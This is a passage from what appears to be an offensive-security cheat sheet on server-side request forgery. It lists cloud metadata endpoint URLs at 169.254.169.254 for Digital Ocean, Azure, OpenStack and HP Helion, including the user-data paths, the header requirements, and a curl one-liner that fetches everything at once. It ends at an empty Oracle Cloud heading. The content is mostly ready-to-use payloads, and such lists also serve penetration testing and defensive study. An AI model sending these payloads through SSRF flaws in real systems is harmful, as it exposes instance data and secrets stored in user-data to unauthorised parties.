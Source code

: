 ### SSRF URL for Digital Ocean

Documentation available at `https://developers.digitalocean.com/documentation/metadata/`

```powershell
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

All in one request:
curl http://169.254.169.254/metadata/v1.json | jq
```

### SSRF URL for Packetcloud

Documentation available at `https://metadata.packet.net/userdata`

### SSRF URL for Azure

Limited, maybe more exists? `https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/`

```powershell
http://169.254.169.254/metadata/v1/maintenance
```

Update Apr 2017, Azure has more support; requires the header "Metadata: true" `https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service`

```powershell
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

### SSRF URL for OpenStack/RackSpace

(header required? unknown)

```powershell
http://169.254.169.254/openstack
```

### SSRF URL for HP Helion

(header required? unknown)

```powershell
http://169.254.169.254/2009-04-04/meta-data/ 
```

### SSRF URL for Oracle Cloud

